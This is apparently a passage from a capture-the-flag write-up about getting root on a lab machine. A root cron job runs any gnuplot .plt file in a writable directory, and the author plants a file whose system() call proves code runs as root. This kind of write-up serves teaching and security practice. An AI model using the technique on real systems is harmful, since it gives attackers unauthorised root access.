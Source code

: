 The first four lines are just CRON starting. What’s interesting comes next - it is calling `/opt/gnuplot/getdata.sh`, which is using `find` to get all `.plt` files from `/opt/gnuplot` and passes them to `gnuplot`!

### Execution via gnuplot

#### POC

I can write to `/opt/gnuplot` and any `.plt` file in that directory will get run each minute. In theory, if I can run a script from a `.plt` (which it looks like may be happening in the two files in there now), then I should be able to get arbitrary code execution.

To test this, I’ll write a simple `.plt` file using the `system` command, starting with something based on the example in [these docs](http://www.bersch.net/gnuplot-doc/system.html):

```

output = system("id")
print(output)

```

I’ll want to write the results somewhere. The [docs](http://www.bersch.net/gnuplot-doc/print.html) for `print` say that the output file can be set with `set print`:

```

set print "/dev/shm/0xdf-output"
output = system("id")
print(output)

```

I’ll write that to a `.plt` file (using `cat` and `<< EOF` to write until it gets a line with `EOF`):

```

vdaisley@topology:/opt$ cat > /opt/gnuplot/0xdf.plt << EOF
> set print "/dev/shm/0xdf-output"
> output = system("id")
> print(output)
> EOF

```

When the next minute rolls over, the output file is there:

```

vdaisley@topology:/opt$ cat /dev/shm/0xdf-output 
uid=0(root) gid=0(root) groups=0(root)

```

It executed as root.
